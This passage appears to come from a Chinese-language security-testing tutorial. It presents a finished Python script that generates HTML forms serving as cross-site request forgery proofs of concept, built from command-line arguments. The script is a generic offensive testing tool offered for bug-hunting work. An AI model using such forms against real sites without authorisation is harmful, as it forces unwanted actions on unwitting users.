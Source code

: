 ![](img/fed35a19-6a69-4b5b-9328-78aa0fcb34f1.png)

豆汤绿——最丑陋且最受诅咒的颜色。但更重要的是，成功信息表明我们的 PoC 已经证明了它的目标。经过一次重构，将命令行参数解析放入 `if __name__ == "__main__":` 启动条件中，这才是它应在的位置，并添加了一个符合 PEP8 的函数文档字符串，最终我们的 `csrf_poc_generator.py` 看起来是这样的：

```
#!/usr/bin/env python3
import sys
import ast

from bs4 import BeautifulSoup, Tag

def generate_poc(method, encoding_type, action, fields):
    """ Generate a CSRF PoC using basic form data """
    content = BeautifulSoup("<html></html>", "html.parser")
    html_tag = content.find("html")
    form_tag = content.new_tag("form", action=action, method=method, enctype=encoding_type)
    html_tag.append(form_tag)

    for field in fields:
        label_tag = content.new_tag('label')
        label_tag.string = field['label']
        field_tag = content.new_tag("input", type=field['type'], value=field['value'])
        field_tag['name'] = field['name']
        form_tag.append(label_tag)
        form_tag.append(field_tag)

    submit_tag = content.new_tag("input", type="submit", value=action)
    form_tag.append(submit_tag)

    return content.prettify()

if __name__ == "__main__":
    method=sys.argv[1]
    encoding_type=sys.argv[2]
    action=sys.argv[3]
    fields = ast.literal_eval(sys.argv[4])
    print(generate_poc(method, encoding_type, action, fields))
```
